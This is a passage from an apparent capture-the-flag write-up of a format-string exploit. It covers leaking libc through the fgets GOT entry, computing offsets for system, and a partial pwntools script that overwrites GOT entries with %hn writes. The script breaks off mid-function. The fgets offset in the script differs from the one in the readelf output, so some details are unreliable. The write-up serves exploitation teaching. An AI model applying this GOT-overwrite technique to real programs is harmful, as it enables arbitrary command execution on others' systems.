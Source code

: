 Now program is no longer exiting after running single command, great :D. We can use this to leak data we need to finish our exploit. First we need to get libc base address. We can do this by finding offset of some function in libc and leaking resolved address of same function during run-time, deducting offset will give us libc base address.

Let’s get address of `fgets` **GOT** entry:

~~~text
    pwndbg> info functions fgets@plt
    All functions matching regular expression "fgets@plt":
    Non-debugging symbols:
    0x00000000004006e0  fgets@plt
    pwndbg> disassemble 0x00000000004006e0
    Dump of assembler code for function fgets@plt:
       0x004006e0 <+0>: jmp    QWORD PTR [rip+0x200b4a]  # 0x601230 
       ....
    End of assembler dump.
~~~

Next we have to find offsets of `fgets` and `system` in libc.

    $readelf -s ./libc.so.6 | grep system
    1337: 0000000000041490 45 FUNC WEAK DEFAULT   12 system@@GLIBC_2.2.5
    ....
    784: 000000000006e990 424 FUNC WEAK DEFAULT   13 fgets@@GLIBC_2.2.5

We have to use same libc as one on target system since offsets can be different (or at least check them on similar system). Now we have to leak address of `fgets`:

    'exit'.ljust(8) + '|%16$s|'.rjust(8) + fgets_got

`%s` specifier will read data from given address as a string. And now we have everything we need, last step is to overwrite `strlen` (just since it's called only in `set_prompt`) with address of `system` (system offset + libc base).

Pwntools script implementing all of the steps:

~~~python
#!/usr/bin/env python
from pwn import *

#Consts:
fgets_got     = p64(0x601230)
exit_got      = p64(0x601258)
strlen_got    = p64(0x601210)
fgets_offset  = 0x69df0
system_offset = 0x41490

env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}

format_string_1 = "A"*8 + ".%p" * 20            #explore stack
format_string_2 = "A"*8 + ".%15$p"              #read our input
format_string_3 ="|%16$p|".rjust(8) + exit_got  #read address we put

def overwrite_exit(r):
	#loop address 0x4009bd
	#2493 value of last 16 bits of loop address, 2499 is value we get, 6 difference, so we deduct 
	format_string_4 ="%{0}c|%17$hn|".format(2493 - 6).rjust(16) + exit_got
	#use ljust to avoid problems with stack aligment
	payload = "exit".ljust(8) + format_string_4

	r.sendline(payload)
	#gdb.attach(r)
	r.recvuntil('Config action: Exit message set!')	
	r.recvuntil('Config action:')	

def overwrite_strlen(r, system_addr):
	addr_part_1 = system_addr & 0xFFFF
~~~